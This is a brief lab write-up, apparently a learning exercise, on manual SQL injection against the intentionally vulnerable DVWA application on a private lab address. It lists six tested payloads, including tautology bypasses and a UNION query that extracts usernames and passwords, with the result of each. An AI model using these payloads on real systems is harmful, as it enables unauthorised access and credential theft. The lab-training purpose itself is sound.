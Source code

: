 # Manual SQL Injection – DVWA

## 🎯 Target
- URL: http://192.168.56.101/dvwa/vulnerabilities/sqli/
- Method: GET
- Parameter: id

## 🔍 Payloads Tested
1. `1' OR '1'='1` ✅ Returned all users  
   *Bypasses authentication logic by making the WHERE clause always true.*

2. `1' OR '1'='1' -- ` ✅ Returned all users  
   *Same as above but comments out the rest of the SQL query.*

3. `1' AND '1'='2` ✅ Returned no users  
   *Condition is always false; used to test if injection is working.*
4. `' UNION SELECT NULL, user, password FROM users -- ` ✅ Returned user data  
   *Example of UNION-based injection to extract data from another table.*

5. `' ORDER BY 10 -- ` ❌ Error (column does not exist)  
   *Used to determine the number of columns in the query.*

6. `' UNION SELECT NULL, NULL -- ` ✅ No error  
   *Helps to identify how many columns the original query uses.*
## ✅ Result
- Confirmed SQL Injection vulnerability in `id` parameter.
- Application is vulnerable to basic authentication bypass and data leakage.
